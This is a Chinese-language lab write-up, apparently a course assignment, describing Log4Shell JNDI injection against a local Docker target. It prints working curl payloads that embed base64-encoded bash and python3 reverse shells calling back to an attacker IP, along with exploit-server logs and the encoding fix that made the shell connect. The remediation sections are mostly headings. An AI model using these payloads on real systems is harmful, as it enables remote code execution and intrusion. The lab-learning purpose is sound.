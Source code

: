 # 实验准备

首先进行环境部署
![](./pic/部署完成.png)

验证能够成功打开网页
![](./pic/进入网页.png)

按照视频将docker中的demo.jar文件复制到本机上
![](./pic/demo.jar.png)

## 靶机ip

__192.168.8.129__

## 攻击者ip 

__192.168.8.132__

# 进行shell反弹测试

## 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容
![](./pic/shell反弹失败.png)
课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
~~__可能是网络问题，后续会再次进行测试。__~~

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell
![](./pic/强制GET收获监听初步进展.png)

换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
![](./pic/修改curl请求成功反弹shell.png)

# ~~作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜~~
战胜了...暂时的

# 漏洞缓解与绕过测试

# 漏洞修复

准备尝试使用更新到最新版本的办法